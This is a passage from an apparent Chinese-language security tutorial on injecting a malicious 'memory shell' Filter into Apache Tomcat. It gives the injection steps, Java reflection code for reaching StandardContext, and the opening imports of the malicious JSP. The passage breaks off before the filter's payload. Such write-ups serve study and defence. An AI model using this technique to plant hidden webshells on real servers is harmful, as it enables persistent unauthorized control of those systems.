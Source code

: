 ```xml
    <url-pattern>/test</url-pattern>
  </filter-mapping>

</web-app>


```

对应Web.xml中的配置信息，这种方式就是为静态的添加filter的方式，filter实现分为静态和动态，静态就是上述中，普通配置在web.xml或者通过@注释配置在类中的。



### 0x03 一个简单Filter内存马案例

1. 首先创建一个恶意Filter
2. 利用 FilterDef 对 Filter 进行一个封装
3. 将 FilterDef 添加到 FilterDefs 和 FilterConfig
4. 创建 FilterMap ，将我们的 Filter 和 urlpattern 相对应，存放到 filterMaps中（由于 Filter 生效会有一个先后顺序，所以我们一般都是放在最前面，让我们的 Filter 最先触发）

```java
    ServletContext servletContext = request.getSession().getServletContext();
    Field appctx = servletContext.getClass().getDeclaredField("context");
    appctx.setAccessible(true);
        // ApplicationContext 为 ServletContext 的实现类
    ApplicationContext applicationContext = (ApplicationContext) appctx.get(servletContext);

    Field stdctx = applicationContext.getClass().getDeclaredField("context");
    stdctx.setAccessible(true);
        // 这样我们就获取到了 context 
    StandardContext standardContext = (StandardContext) stdctx.get(applicationContext);

```



#### 1.首先来编写一个filter的恶意类

在`doFilter`方法中写下实现的功能



![实现](http://image.xpshuai.cn/img/image-20220111233418103.png)

![实现2](http://image.xpshuai.cn/img/image-20220111233531426.png)



代码如下：

```java
<%@ page import="org.apache.catalina.core.ApplicationContext" %>
<%@ page import="java.lang.reflect.Field" %>
<%@ page import="org.apache.catalina.core.StandardContext" %>
<%@ page import="java.util.Map" %>
<%@ page import="java.io.IOException" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterDef" %>
<%@ page import="org.apache.tomcat.util.descriptor.web.FilterMap" %>
<%@ page import="java.lang.reflect.Constructor" %>
<%@ page import="org.apache.catalina.core.ApplicationFilterConfig" %>
<%@ page import="org.apache.catalina.Context" %>
<%@ page import="java.io.InputStream" %>
<%@ page import="java.io.InputStreamReader" %>
<%@ page import="java.io.BufferedReader" %>
<%@ page import="java.util.Scanner" %>
<%@ page language="java" contentType="text/html; charset=UTF-8" pageEncoding="UTF-8"%>

<%
    final String name = "xps";
```